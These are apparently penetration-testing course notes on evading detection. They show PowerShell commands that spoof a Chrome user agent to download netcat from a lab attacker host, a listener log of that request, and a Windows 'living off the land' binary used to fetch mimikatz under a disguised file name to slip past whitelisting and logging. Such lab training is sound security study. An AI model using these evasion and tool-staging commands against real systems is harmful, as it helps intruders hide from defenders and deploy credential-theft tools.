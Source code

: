 # Evading Detection
- [Evading Detection](#evading-detection)
  - [**Changing User Agent**](#changing-user-agent)
    - [**Listing out User Agents**](#listing-out-user-agents)
    - [**Request with Chrome User Agent**](#request-with-chrome-user-agent)
  - [**LOLBAS / GTFOBins**](#lolbas--gtfobins)
    - [**Transferring File with GfxDownloadWrapper.exe**](#transferring-file-with-gfxdownloadwrapperexe)

## **Changing User Agent**

If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari. For example, if Chrome is used internally, setting this User Agent may make the request seem legitimate.

### **Listing out User Agents**

```powershell
PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | flName       : InternetExplorer
User Agent : Mozilla/5.0 (compatible; MSIE 9.0; Windows NT; Windows NT 10.0; en-US)

Name       : FireFox
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) Gecko/20100401 Firefox/4.0

Name       : Chrome
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, like Gecko) Chrome/7.0.500.0
             Safari/534.6

Name       : Opera
User Agent : Opera/9.70 (Windows NT; Windows NT 10.0; en-US) Presto/2.2.1

Name       : Safari
User Agent : Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/533.16 (KHTML, like Gecko) Version/5.0
             Safari/533.16
```

Invoking Invoke-WebRequest to download nc.exe using a Chrome User Agent:

### **Request with Chrome User Agent**

```powershell
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::ChromePS 
C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

```
th1nyunb0y@htb[/htb]$ nc -lvnp 80listening on [any] 80 ...
connect to [10.10.10.32] from (UNKNOWN) [10.10.10.132] 51313
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6
(KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

---

## **LOLBAS / GTFOBins**

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries." An example LOLBIN is the Intel Graphics Driver for Windows 10 (GfxDownloadWrapper.exe), installed on some systems and contains functionality to download configuration files periodically. This download functionality can be invoked as follows:

### **Transferring File with GfxDownloadWrapper.exe**

```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

Such a binary might be permitted to run by application whitelisting and be excluded from alerting. Other, more commonly available binaries are also available, and it is worth checking the [LOLBAS](https://lolbas-project.github.io/) project to find a suitable "file download" binary that exists in your environment. Linux's equivalent is the [GTFOBins](https://gtfobins.github.io/) project and is definitely also worth checking out. As of the time of writing, the GTFOBins project provides useful information on nearly 40 commonly installed binaries that can be used to perform file transfers.